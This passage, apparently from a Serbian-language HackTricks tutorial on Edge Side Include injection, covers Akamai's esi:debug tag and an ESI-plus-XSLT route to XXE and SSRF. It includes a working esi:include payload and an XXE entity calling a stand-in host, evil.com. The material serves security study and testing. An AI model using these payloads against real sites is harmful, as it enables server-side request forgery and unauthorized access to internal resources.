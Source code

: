#### Akamai debug

Ovo će poslati informacije za debagiranje uključene u odgovor:

```xml
<esi:debug/>
```

### ESI + XSLT = XXE

Specifikacijom vrednosti `xslt` za parametar _dca_, moguće je uključiti **`eXtensible Stylesheet Language Transformations (XSLT)`** bazirani ESI. Uključivanje uzrokuje da HTTP surrogate preuzme XML i XSLT fajlove, pri čemu XSLT filtrira XML fajl. Takvi XML fajlovi su podložni _XML External Entity (XXE)_ napadima, omogućavajući napadačima da izvrše SSRF napade. Međutim, korisnost ovog pristupa je ograničena jer ESI uključivanje već služi kao SSRF vektor. Zbog nedostatka podrške u osnovnoj Xalan biblioteci, eksterni DTD-ovi se ne procesiraju, što sprečava ekstrakciju lokalnih fajlova.

```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```

XSLT datoteka:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```

Proverite XSLT stranicu:

{% content-ref url="xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

### Reference

* [https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [https://academy.hackthebox.com/module/145/section/1304](https://academy.hackthebox.com/module/145/section/1304)
* [https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91](https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91)

## Lista za otkrivanje Brute-Force napada

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssi_esi.txt" %}

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

